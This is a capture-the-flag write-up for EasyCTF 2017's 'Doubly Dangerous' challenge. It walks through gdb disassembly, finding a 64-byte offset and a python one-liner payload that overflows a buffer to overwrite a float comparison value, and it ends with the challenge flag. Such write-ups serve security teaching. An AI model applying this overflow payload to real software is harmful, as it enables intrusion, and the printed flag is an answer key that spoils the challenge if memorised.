 # Doubly Dangerous - 110 Points

There seems to be an issue with [this](https://github.com/EasyCTF/easyctf-2017-problems/blob/master/doubly-dangerous/doubly_dangerous?raw=true) binary. Can you exploit it?

### Solution

###### phsst - VoidMercy's writeup

We were given a binary.

We first run it to see what it does

```
Give me a string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
nope!
Segmentation fault
```

Seems like a buffer overflow because there was a segmentation fault. This means gets() was probably used, and gets() does not care about the length of the string we input. Now let's take a look at the code in gdb with

```
gdb doubly_dangerous
set disassembly-flavor intel
disas main
```

Here is the interesting instruction:

```
0x0804863c <+53>:    fld    DWORD PTR [ebp-0xc]
0x0804863f <+56>:    fld    DWORD PTR ds:0x804876c
0x08048645 <+62>:    fucomip st,st(1)
```

We can see that fucomip is being used, which is floating point instructions. We surmise that we need to make this compare return true. We can see that the value at 0x804876c is being compared to the value at ebp-0xc. Because we saw a segmentation fault, we know this consists of an overflow. We experiment with the amount of bytes to type until the value at ebp-0xc is overflowed.

```
python -c "print 'A'*69" > temp

(gdb) r < temp
...
Breakpoint 1, 0x08048686 in main ()
(gdb) x/10wx $ebp-0xc
0xffffd0dc:     0x41414141      0xf7fc0041      0xffffd100      0x00000000
0xffffd0ec:     0xf7e31a83      0x08048690      0x00000000      0x00000000
0xffffd0fc:     0xf7e31a83      0x00000001
```

Alright, we can see that 69 characters overflows the content at ebp-0xc and 1 extra character. This means we need 64 characters to get the ebp-0xc, and then with the next four characters, we can control what value to place in $ebp-0xc. Now, we need to check what value to replace it with.

```
(gdb) x/10wx 0x804876c
0x804876c:      0x41348000      0x3b031b01      0x00000030      0x00000005
0x804877c:      0xfffffc60      0x0000004c      0xfffffe0b      0x00000070
0x804878c:      0xfffffe97      0x00000090
```

We can see the value we need is 0x41348000. Now we can construct our exploit.

```
python -c "print 'A'*64 + '\x00\x80\x34\x41'" | ./doubly_dangerous
```

```
python -c "print 'A'*64 + '\x00\x80\x34\x41'" | ./doubly_dangerous
Give me a string: 
Success! Here is your flag:
easyctf{bofs_and_floats_are_d0uble_tr0uble!}
```

## Flag

>easyctf{bofs_and_floats_are_d0uble_tr0uble!}

